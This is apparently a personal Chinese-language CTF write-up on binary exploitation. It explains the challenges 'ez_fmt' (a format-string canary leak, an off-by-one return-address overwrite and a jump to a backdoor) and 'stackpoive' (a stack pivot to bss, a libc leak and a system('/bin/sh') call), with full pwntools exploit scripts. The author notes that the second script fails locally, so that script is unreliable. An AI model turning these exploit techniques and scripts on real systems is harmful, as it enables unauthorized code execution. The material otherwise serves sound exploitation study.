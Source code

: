 ## ez_fmt

![[Pasted image 20241216215452.png]]

![[Pasted image 20241216215543.png]]

输入aaaaaaaa的偏移是10

![[Pasted image 20241216215629.png]]

![[Pasted image 20241216215641.png]]

注意这里的read_str的输入是溢出9个字节，如果不注意就会认为是8个字节。这样的话就可以打off by one的手法，用一个字节的溢出去修改返回地址。
![[Pasted image 20241216215653.png]]

这还有个后门函数
![[Pasted image 20241216221007.png]]

主函数里面存在格式化字符串，可以泄露canary的地址
思路：首先使用格式化泄露canary然后再溢出修改返回会地址的最后一个字节为vuln的函数的最后一个字节，因为ret的返回地址和vuln的地址只有最后一个字节的不同，也就是15的偏移地址，13是canary，14是rbp，15就是返回地址的东西，可以看到vuln函数的地址，就差一个字节，用off by one就行，修改完后就可以循环vuln函数了，然后就是利用格式化字符串修改返回地址的0x4013ec中的13改成12就行，这因为后门函数是0x4012xx的形式的，然后我们就可以再次利用下面的off by one修改最后一个字节为后门的字节就可以打通了。
![[Pasted image 20241216220503.png]]

![[Pasted image 20241216220626.png]]

下面我讲解一下代码：
就暂且讲解下面的代码，首先ret的地址是rbp减去0x18的位置，如下图rbp第二个地址到rbp+8的距离，这里是借用的图，距离并不是0x18，所以ret的地址就这样的出来了，然后我们还知道我们只需要修改ret的中间的一个字节，所以ret加一，然后就是我们将p64(ret+1)放在栈上的原因是因为我们可以根据rbp的偏移计算出我们的p64(ret+1)的偏移地址，得出是6，这样我们在第一步就将返回地址准备好了，同时也将后面的一个字节改了，然后就是进行格式化定位修改修改中间的字节，修改完之后就差最后的一个字节，我们就利用最后的off by one修改。

![[Pasted image 20241216222410.png]]
![[Pasted image 20241216222726.png]]

==疑惑：我在想如果我不将p64(ret+1)拿出来放在栈上，而是直接15的偏移直接定位到ret+1的地址去修改中位不也行吗？直接修改两个字节，或者修改中间的一个字节最后再用offbyone去修改最后的，但是我没有打通。。。。。！！！！有点疑惑，浪费了我很多时间，还有就是第一个为什么用send？我用sendline就打不通。也是很疑惑，难道换行符会占用了什么空间导致的吗？==


已解疑惑：我在刚写完疑惑的时候就想起来如果要通过格式化字符串修改栈上的时候需要一个多级链表，我才发现15的偏移的链表就只有上图所示的一个，所以不行，我才想来这是我之前写格式化字符串的时候的总结了。但是为什么不能用sendline我还是不知道。


```
from pwn import *

filename = './fmt'

context.terminal = ['tmux', 'splitw', '-h']

debug = 0

if debug:

    io = remote('nc1.ctfplus.cn', 22626)

else:

    io = process(filename)

  

elf = ELF(filename)

context(arch = elf.arch, log_level = 'debug', os = 'linux')

  

def dbg():

    gdb.attach(io)

io.send('A')

sleep(0.1)

io.send('%13$p%14$p')

sleep(0.1)

io.recvuntil('0x')

canary = int(io.recv(16), 16)

success('canary =>> ' + hex(canary))

  

io.recvuntil('0x')

rbp = int(io.recv(12), 16)

success('rbp =>> ' + hex(rbp))

ret = rbp - 0x18
io.send(p64(ret+1)+b'A' *48+ p64(canary) + p64(rbp)+ b'\xec')
sleep(0.1)

io.send(b'%18c%6$hhn')
sleep(0.1)
# attach(io)
io.sendline(b'A' * 0x38 + p64(canary) + p64(rbp)+ b'\x82')


io.interactive()
```


## stackpoive

==这一题和2024羊城杯的一个栈迁移的题一样，但是代码拿过来打不通，并且我对上次的题的理解不对的地方也加以改正==。

![[Pasted image 20241222155052.png]]

![[Pasted image 20241222155116.png]]

![[Pasted image 20241222155126.png]]

可以看到函数很简单，没有什么套路。我们输入1后就进入到了vuln函数，这里面存在一个栈溢出函数，溢出的是0x10字节，正好到返回地址，但是函数只有一个溢出函数，并且不存在循环多次使用函数，溢出的距离也不够我们先泄露真实地址再跳转回read函数。我们需要进行栈迁移到bss段，具体解析如下：

---
让我们解释一下第一次发送的read，我们将bss设置为bss=0x601130是因为我们read的输入的地方是bss=rbp-0x30的地方，也就是说我们需要减去0x30，所以我们就提前加上了0x30，现在我们需要将rbp设置为bss就行，然后返回地址我们就填read函数地址就行。这样我们退出read的时候会紧接着退出vuln就会触发leave;ret。也就会帮我们进行rbp,rsp,ret的跳转。
![[Pasted image 20241222163805.png]]
![[Pasted image 20241222161538.png]]
![[Pasted image 20241222161817.png]]

---
对于第二次发送我需要纠正之前我的认知错误，==这里我们发现为什么我们需要最后进行将rbp=bss-0x38是因为我们需要将rsp调到bss的开头，也就是0x601100的地方，有人可能就会问了bss-0x38不是0x601108吗？现在我就详细讲一点关于栈迁移的一个小点：mov rsp,rbp  pop rbp; pop eip;这一步中rsp会跳到rbp的位置，pop rbp后，rsp会再往下跳一个地址位，所以我们要多减去一个0x8字节！！！==这样我们就可以将程序的执行流程调成从第二次read的输入的内容的地址开始处执行程序。执行完leave后就会接着输入第三次read的输入。

![[Pasted image 20241222164340.png]]

---
对于第三次输入的地方我就谁一点就是，rbp=bss-0x40-0x38的原因是我们跳到第三次read函数的输入的起始地址。

![[Pasted image 20241222170051.png]]

---

对于这一题我们本地打不通，也不知道哪里出了问题。。。。。。。
有机会想到了原因再回来重新研判吧。



```
#coding:utf-8
from pwn import*
p=process("./main")
elf=ELF("./main")
libc=ELF("./libc.so.6")
put_plt=elf.plt["puts"]
put_got=elf.got["puts"]
bss=0x601130
read_a=0x000000000040071c

def bug(x):
    if x :
        attach(p)

p.sendlineafter('>>\n', '1')

bss=0x601130
p.sendafter('something\n', b'A' * 0x30 + p64(bss) + p64(read_a))

pop_rdi=0x0000000000400853
leave=0x0000000000400738
pop_rbp=0x0000000000400628

  

def func2(x):

    pay=p64(pop_rdi)+p64(put_got)+p64(put_plt)

    pay+=p64(pop_rbp)+p64(bss+0x40)+p64(read_a)

    pay+=p64(bss-0x38)+p64(leave)

    p.send(pay)

func2(1)

puts_real=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base=puts_real-libc.sym['puts']
system_real=libc_base+libc.sym['system']
binsh=libc_base+libc.search('/bin/sh\x00').__next__()

  
payload3=(p64(pop_rdi)+p64(binsh)+p64(system_real)).ljust(0x30,b'\x00')
payload3+=p64(bss+0x40-0x38)+p64(leave)
p.send(payload3)

p.interactive()
```

## 0000


![[Pasted image 20241226211638.png]]


## ez_overflow


## monkey